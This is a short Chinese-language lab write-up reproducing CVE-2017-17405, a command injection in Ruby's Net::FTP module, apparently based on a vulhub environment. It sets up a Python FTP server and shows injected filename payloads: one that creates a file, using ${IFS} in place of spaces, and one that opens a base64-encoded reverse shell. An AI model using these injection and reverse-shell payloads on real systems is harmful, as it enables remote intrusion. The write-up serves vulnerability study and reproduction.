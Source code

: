 （CVE-2017-17405）Net__FTP 模块命令注入漏洞
===========================================

一、漏洞简介
------------

Ruby Net__FTP
模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

二、漏洞影响
------------

Ruby \< 2.4.3

三、复现过程
------------

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

    # 安装pyftpdlib
    pip install pyftpdlib

    # 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
    python3 -m pyftpdlib -p 2121 -i 0.0.0.0

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp
server，其中无需放置任何文件）：

![1.png](resource/(CVE-2017-17405)Net__FTP模块命令注入漏洞/media/rId24.png)

然后进入docker容器内，可见success.txt已被创建：

![2.png](resource/(CVE-2017-17405)Net__FTP模块命令注入漏洞/media/rId25.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![3.png](resource/(CVE-2017-17405)Net__FTP模块命令注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/ruby/CVE-2017-17405/

